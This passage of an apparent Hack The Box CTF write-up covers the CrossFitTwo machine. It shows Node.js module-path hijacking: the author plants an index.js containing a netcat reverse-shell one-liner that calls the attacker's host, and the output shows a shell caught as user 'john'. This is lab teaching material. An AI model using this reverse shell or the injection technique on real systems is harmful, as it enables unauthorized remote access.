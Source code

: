 According to that information, we know that we can create a new file on a specific location which it loads that the script runs (library injection vulnerability).

Let's create new file ```index.js``` with [OpenBSD Reverse Shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#netcat-openbsd) as follow: 
```javascript
require("child_process").execSync('rm /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4242 >/tmp/f');
```

By running ```module.paths``` on ```node``` console we can see the following paths:
```console
crossfit2:sysadmin {10} node
Welcome to Node.js v12.16.1.
Type ".help" for more information.
> module.paths
[
  '/opt/sysadmin/repl/node_modules',
  '/opt/sysadmin/node_modules',
  '/opt/node_modules',
  '/node_modules',
  '/home/david/.node_modules',
  '/home/david/.node_libraries',
  '/opt/lib/node',
  '/opt/lib/node_modules'
]
> 
```

Because we have ```write``` permission on ```/opt/sysadmin/``` we can locate the reverse shell file on ```/opt/sysadmin/node_modules``` directory:
```console
crossfit2:node_modules {74} pwd
/opt/sysadmin/node_modules
crossfit2:node_modules {74} ls
index.js
```

Listen to port 4242 using ```nc```, Wait 1 min and we will get a reverse shell as ```john``` user:
```console
┌─[evyatar@parrot]─[/hackthebox/CrossFitTwo/]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from crossfit.htb [10.10.10.232] 2687
/bin/sh: No controlling tty (open /dev/tty: Device not configured)
/bin/sh: Can't find tty file descriptor
/bin/sh: warning: won't have full job control
crossfit2$ whoami
john
crossfit2$ id
uid=1005(john) gid=1005(john) groups=1005(john), 20(staff), 1003(sysadmins)
crossfit2$ 
```

